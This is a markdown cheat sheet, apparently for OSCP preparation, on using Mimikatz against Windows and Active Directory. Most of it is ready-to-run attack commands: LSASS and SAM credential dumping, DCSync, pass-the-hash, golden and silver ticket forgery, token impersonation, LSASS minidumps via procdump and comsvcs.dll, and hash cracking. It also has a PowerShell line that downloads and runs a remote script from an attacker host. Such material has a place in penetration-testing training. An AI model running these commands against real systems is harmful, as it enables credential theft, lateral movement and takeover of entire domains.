


## TL;DR

Mimikatz is an open-source post-exploitation tool that extracts credentials, tokens, and Kerberos tickets from Windows memory. **Understanding its modules and output is essential for Active Directory attacks in OSCP.** This guide covers the most impactful Mimikatz commands with usage context and OPSEC notes.

---

## What is Mimikatz?

Mimikatz (by Benjamin Delpy, `@gentilkiwi`) abuses the Windows LSASS (Local Security Authority Subsystem Service) process and various Windows APIs to retrieve:

- Plaintext passwords (via WDigest on older systems)
- NTLM password hashes
- Kerberos tickets (TGT/ST)
- DPAPI master keys

```
          ┌─────────────────────────────┐
          │        Mimikatz             │
          │                             │
          │  sekurlsa::  ← LSASS       │
          │  lsadump::   ← SAM/NTDS    │
          │  kerberos::  ← Tickets     │
          │  token::     ← Impersonation│
          │  dpapi::     ← Data Decrypt │
          └─────────────────────────────┘
```

---

## Prerequisites & Execution

### Privileges Required

| Command Category | Minimum Privilege |
|---|---|
| `sekurlsa::logonpasswords` | Local Admin + `SeDebugPrivilege` |
| `lsadump::sam` | Local Admin |
| `lsadump::dcsync` | Domain Admin or Replication rights |
| `kerberos::ptt` | Normal user |
| `token::elevate` | Local Admin |

### Enable Debug Privilege

Always run first — required for most sensitive operations:

```
privilege::debug
```

Expected output: `Privilege '20' OK`

### Run as SYSTEM

```
token::elevate
```

---

## Module Reference

### sekurlsa — LSASS Memory Extraction

#### Dump All Logon Credentials

```
sekurlsa::logonpasswords
```

**Output fields to note:**

| Field | Meaning |
|---|---|
| `msv` | NTLM hashes |
| `wdigest` | Plaintext password (if WDigest enabled) |
| `kerberos` | Kerberos credentials |
| `tspkg` | Terminal Services credentials |
| `ssp` | SSP credentials |

**Sample output:**

```
Authentication Id : 0 ; 299108 (00000000:000491a4)
Session           : Interactive from 1
User Name         : alice
Domain            : CORP
Logon Server      : DC01
...
        msv :
         [00000003] Primary
         * Username : alice
         * Domain   : CORP
         * NTLM     : aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
        wdigest :
         * Username : alice
         * Domain   : CORP
         * Password : P@ssw0rd123
```

#### Extract Kerberos Tickets from Memory

```
sekurlsa::tickets /export
```

Exports `.kirbi` files to current directory for use with `kerberos::ptt`.

#### Pass-the-Hash (PTH)

Spawn a new process authenticated with a captured NTLM hash — no plaintext needed:

```
sekurlsa::pth /user:administrator /domain:corp.local /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:cmd.exe
```

| Parameter | Description |
|---|---|
| `/user` | Target username |
| `/domain` | Domain or `.` for local |
| `/ntlm` | The NT hash (second part of `LM:NT`) |
| `/run` | Process to spawn (default: `cmd.exe`) |

**PTH Flow:**



---

### lsadump — SAM / NTDS Dumping

#### Dump Local SAM Database

```
lsadump::sam
```

Requires SYSTEM privileges. Extracts local account hashes:

```
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
```

#### Dump Domain Credentials via DCSync

Mimics a Domain Controller replication request to pull credentials without touching LSASS on the DC:

```
lsadump::dcsync /domain:corp.local /user:administrator
```

Dump all domain users (slow — use with care):

```
lsadump::dcsync /domain:corp.local /all /csv
```

**DCSync Flow:**



> **OSCP note:** DCSync requires `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` rights. Domain Admins have these by default.

#### Dump LSASS Secrets (Service Accounts, Cached Creds)

```
lsadump::secrets
```

Retrieves LSA secrets including service account credentials stored in the registry.

#### Dump DPAPI Master Keys

```
lsadump::backupkeys /system:dc01.corp.local /export
```

---

### kerberos — Ticket Manipulation

#### List All Cached Tickets

```
kerberos::list /export
```

#### Pass-the-Ticket (PTT)

Inject a `.kirbi` ticket into the current session:

```
kerberos::ptt ticket.kirbi
```

Verify injection:

```
kerberos::list
```

#### Purge All Tickets

```
kerberos::purge
```

#### Golden Ticket

Forge a TGT using the `krbtgt` account hash — grants persistent domain access:

```
kerberos::golden /user:FakeAdmin /domain:corp.local /sid:S-1-5-21-1234567890-987654321-111111111 /krbtgt:KRBTGT_NTLM_HASH /ptt
```

| Parameter | Source |
|---|---|
| `/sid` | `whoami /user` → drop last `-RID` |
| `/krbtgt` | From `lsadump::dcsync /user:krbtgt` |
| `/ptt` | Inject immediately into memory |

#### Silver Ticket

Forge a Service Ticket for a specific SPN without contacting the DC:

```
kerberos::golden /user:FakeUser /domain:corp.local /sid:S-1-5-21-... /target:fileserver.corp.local /service:cifs /rc4:SERVICE_ACCOUNT_NTLM /ptt
```

| Ticket Type | Requires | Access |
|---|---|---|
| Golden | `krbtgt` hash | Any service in domain |
| Silver | Service account hash | Only that specific service |

---

### token — Impersonation

#### List Available Tokens

```
token::list
```

#### Elevate to SYSTEM Token

```
token::elevate
```

#### Impersonate Another User's Token

```
token::elevate /domainadmin
```

#### Revert to Original Token

```
token::revert
```

---

## OSCP Workflow Cheatsheet

### Scenario 1: Lateral Movement via PTH

```
# 1. Dump LSASS on compromised host
privilege::debug
sekurlsa::logonpasswords

# 2. Use captured hash to spawn shell as another user
sekurlsa::pth /user:svc-sql /domain:corp.local /ntlm:<HASH> /run:cmd.exe

# 3. Access target from new shell
net use \\dc01\C$ /user:corp\svc-sql
```

### Scenario 2: Domain Takeover via DCSync

```
# Prerequisite: Domain Admin or equivalent replication rights

# 1. Get krbtgt hash
lsadump::dcsync /domain:corp.local /user:krbtgt

# 2. Get target user hash
lsadump::dcsync /domain:corp.local /user:administrator

# 3. Forge Golden Ticket
kerberos::golden /user:Administrator /domain:corp.local /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt

# 4. Access DC
dir \\dc01.corp.local\C$
```

### Scenario 3: Ticket Theft + PTT

```
# 1. Export all tickets
sekurlsa::tickets /export

# 2. Identify high-value ticket (e.g., DA's TGT)
# ls *.kirbi

# 3. Import ticket
kerberos::ptt [0;3e4]-2-1-40e10000-alice@krbtgt-CORP.LOCAL.kirbi

# 4. Verify and use
kerberos::list
dir \\dc01\C$
```

---

## Running Mimikatz Without Dropping to Disk

### From Memory via PowerShell

```powershell
# Invoke-Mimikatz (PowerSploit)
IEX (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

### LSASS Dump + Offline Parsing

1. Dump LSASS to file (on target):

```powershell
# Via Task Manager → right-click lsass.exe → Create dump file
# Or via procdump (Sysinternals):
procdump.exe -ma lsass.exe lsass.dmp
```

2. Parse offline (on attacker machine):

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Via comsvcs.dll (no extra tools)

```powershell
$lsass = Get-Process lsass | Select -ExpandProperty Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass lsass.dmp full
```

---

## Key Output Parsing Tips

### NTLM Hash Format

```
NTLM: aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
              LM hash (empty/blank)              NT hash (use this)
```

Always use the **second part** (after the colon) for PTH and cracking.

### Crack NTLM with Hashcat

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Crack with John

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## Quick Reference Summary

| Goal | Command |
|---|---|
| Enable debug privilege | `privilege::debug` |
| Dump all creds | `sekurlsa::logonpasswords` |
| Export Kerberos tickets | `sekurlsa::tickets /export` |
| Pass-the-Hash | `sekurlsa::pth /user:X /ntlm:HASH /run:cmd.exe` |
| Dump SAM (local) | `lsadump::sam` |
| DCSync | `lsadump::dcsync /domain:X /user:Y` |
| Forge Golden Ticket | `kerberos::golden /user:X /krbtgt:HASH /ptt` |
| Forge Silver Ticket | `kerberos::golden /service:cifs /rc4:HASH /ptt` |
| Inject ticket | `kerberos::ptt ticket.kirbi` |
| Elevate token | `token::elevate` |
| Offline LSASS parse | `sekurlsa::minidump lsass.dmp` |
